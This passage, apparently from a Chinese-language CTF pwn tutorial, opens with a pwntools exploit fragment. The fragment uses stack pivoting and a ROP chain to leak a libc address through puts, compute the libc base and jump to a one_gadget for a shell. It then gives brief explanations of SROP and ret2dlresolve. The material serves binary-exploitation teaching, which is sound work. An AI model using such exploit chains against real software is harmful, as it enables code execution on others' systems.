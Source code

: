 ```plain
payload3 = p64(bss+0x40)+p64(rdi)+p64(puts_got)+p64(puts_addr)+p64(main)
io.send(payload1)
io.send(payload2)
io.send(payload3)
puts_real_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_real_addr - libc.sym["puts"]
r12 = libc_base+0x2f709
ogs=[0xe3afe,0xe3b01,0xe3b04]
og=libc_base+ogs[0]
payload1 = b'a'*0x30+p64(bss+0x100)+p64(read)
payload2 = b'a'*0x30+p64(bss+0x130)+p64(read)
payload3 = p64(bss+0x140)+p64(r12)+p64(0)+p64(og)
io.send(payload1)
io.send(payload2)
io.send(payload3)
io.interactive()
```

## 3.SROP

之前写过一次，随便提一嘴

其实就是一个叫sigreturn的系统调用的利用，整体来讲其实就是ret2syscall的变种，不过原理会更加复杂些

之前写的文章链接： [SROP](https://xz.aliyun.com/t/13198)

## 4.ret2dlresolve

这部分利用我只能讲出原理，利用的话可以看看这位师傅的文章：（没咋碰见过。。）

[ret2dlresolve超详细教程(x86&x64)-CSDN博客](https://blog.csdn.net/qq_51868336/article/details/114644569)

具体而言就是got和plt表的延迟绑定机制

在调用函数plt表后，程序会使用函数\_dl\_runtime\_resolve(link\_map,reloc\_offset)来对动态链接的函数进行重定位

这个函数会完成符号的解析，即将真实的write函数地址写入其GOT表对应的条目中，随后将控制器交给被解析的函数

这个攻击的目的，就是劫持程序对于符号的解析过程，让程序把原函数解析成我们想要执行函数及对应参数

### 应用范围：

程序中无输出函数，并且未开启full relro

## 总结

本期我介绍的是更加复杂的ret2应用，是很多给了限制条件的程序的攻击良方，希望对想要深入学习二进制漏洞利用的师傅们有帮助
